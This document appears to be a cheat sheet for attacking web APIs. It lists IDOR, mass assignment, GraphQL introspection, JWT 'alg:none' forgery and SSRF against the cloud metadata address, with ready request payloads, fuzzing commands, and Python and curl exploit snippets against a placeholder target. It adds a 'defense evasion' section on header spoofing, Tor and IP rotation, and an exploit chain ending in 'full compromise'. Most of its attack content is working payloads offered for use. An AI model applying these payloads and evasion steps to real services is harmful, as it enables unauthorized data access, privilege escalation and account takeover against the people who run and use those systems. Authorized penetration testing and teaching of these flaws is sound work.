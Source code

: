 # VULNERABILITY TYPES & EXPLOITATION

## IDOR (Insecure Direct Object Reference)

- Mechanism: Missing object-level authorization
- Test: Sequential/pattern ID manipulation
- Exploit:

```javascript
  GET /api/user/123 → 200 OK
  GET /api/user/456 → 200 OK (Unauthorized access)
```

- Tools: Burp Repeater, Python requests

## Mass Assignment

- Mechanism: Overprivileged object binding
- Test: Add privileged parameters (role, isAdmin)
- Exploit:

```javascript
  POST /api/users
  {"email":"user@test.com","role":"admin"}
```

- Tools: Postman, curl

## GraphQL Abuse

- Mechanism: Excessive data exposure
- Test: Introspection queries
- Exploit:

```javascript
 query {__schema{types{name,fields{name}}}
```

- Tools: GraphQLmap, Altair

## JWT Issues

- Mechanism: Weak crypto/validation
- Test: Algorithm substitution (none/HS256)
- Exploit:

```json
Header: {"alg":"none"}
  Payload: {"user":"admin"}
```

- Tools: jwt_tool, Burp JWT Editor

## SSRF via Webhooks

- Mechanism: Unrestricted URL fetching
- Test: Internal endpoint probing
- Exploit:

```javascript
POST /api/webhook
  {"url":"http://169.254.169.254"}
```

- Tools: Collaborator, Interactsh

# ENDPOINT DISCOVERY METHODS

- Directory fuzzing: ffuf -w wordlist.txt -u `https://target.com/api/FUZZ`
- JS analysis: Extract endpoints from `/static/main.js`
- Documentation: Check `/swagger.json`, `/openapi.yaml`
- Mobile apps: Use `MobSF for APK analysis`

# ESSENTIAL TOOLS

| Tool          | Primary Use                | Command Example                  |
|---------------|----------------------------|----------------------------------|
| Burp Suite    | Request manipulation       | Send to Repeater/Intruder        |
| ffuf          | Endpoint discovery         | ffuf -w api_words.txt -u URL/FUZZ|
| Postman       | API chain testing          | Environment variables            |
| GraphQLmap    | GraphQL exploitation       | dump schema, field suggestions   |
| jwt_tool      | JWT manipulation           | python3 jwt_tool.py <JWT> -T     |

# EXPLOIT CODE SNIPPETS

# IDOR Testing (Python)

```python
import requests
for id in range(1000,1002):
    r = requests.get(f'https://target.com/api/user/{id}', 
                    headers={'Authorization': 'Bearer TOKEN'})
    print(f"{id}: {len(r.text)} chars")
```

# Mass Assignment (curl)

```bash
curl -X POST 'https://target.com/api/users' \
-H 'Content-Type: application/json' \
-d '{"email":"attacker@evil.com","is_admin":true}'
```

# GraphQL Introspection

```graphql
query GetEverything {
  __schema {
    types {
      name
      fields {
        name
      }
    }
  }
}
```

# DEFENSE EVASION TECHNIQUES

- Request spacing: time.sleep(3) between calls
- Header rotation: Cycle User-Agent/X-Forwarded-For
- TLS fingerprinting: Mimic mobile app clients
- IP rotation: Proxy chains/Tor

# CRITICAL CHECKS

✓ Test all HTTP methods (GET/POST/PUT/PATCH/DELETE)

✓ Verify parameter pollution (param=1&param=2)

✓ Check .json/.xml alternatives (/api/users.json)

✓ Tamper with Content-Type headers

# Exploit Chain Example

1. Find /api/users/[ID] endpoint via fuzzing
2. Discover IDOR vulnerability
3. Extract admin ID via enumeration
4. Use mass assignment on /api/admin/profile
5. Achieve full compromise

# PRO TIPS

• Always test API versions (v1 vs v2 auth)

• Capture mobile app traffic with MITMproxy

• Chain IDOR + JWT issues for account takeover

• Check for debug endpoints (/api/test, /dev)